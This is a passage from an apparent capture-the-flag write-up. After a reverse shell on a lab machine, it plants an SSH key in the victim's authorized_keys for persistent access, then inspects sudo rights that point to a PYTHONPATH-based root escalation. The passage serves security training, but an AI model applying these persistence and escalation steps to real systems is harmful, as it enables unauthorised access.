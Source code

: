 To be sure, I did this for both of `your_name` and `report_text` fields.
![](/assets/Clipboard_2021-03-01-07-26-28.png)
And we got our reverese shell.
If we perform a `whoami`, we can see that we're the user `wes`.
The next step is to upgrade to a better shell. We can easly create a ssh-key by issuing the following command on our machine:

```bash
ssh-keygen -t ecdsa -N '' '' -f wes
```

and put the content of `wes.pub` inside the victim machine in `/home/wes/.ssh/authorized_keys`

if the folder `.ssh` doesn't exist, create it.
```bash
echo "ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCR/VjkHMmpgmgKeuZrSX10wxCDp9ML34CEqvZjkEcy/5IusFxFpm8ECp2Sn2sPz9a5W6FB0YfvjmJnI2wxvtE= jackrendor" > /home/wes/.ssh/authorized_keys
```

now we can log in via ssh by issuing the followin command:
```bash
ssh -i wes wes@10.10.148.90
```

# Privilege Escalation
By issuing `sudo -l` we can see which commands we can execute as root and some other useful information.
```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3
        /opt/development/test_module.py
```
We can potentially execute the following script: `/opt/development/test_module.py`.

This is the content of the script:
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
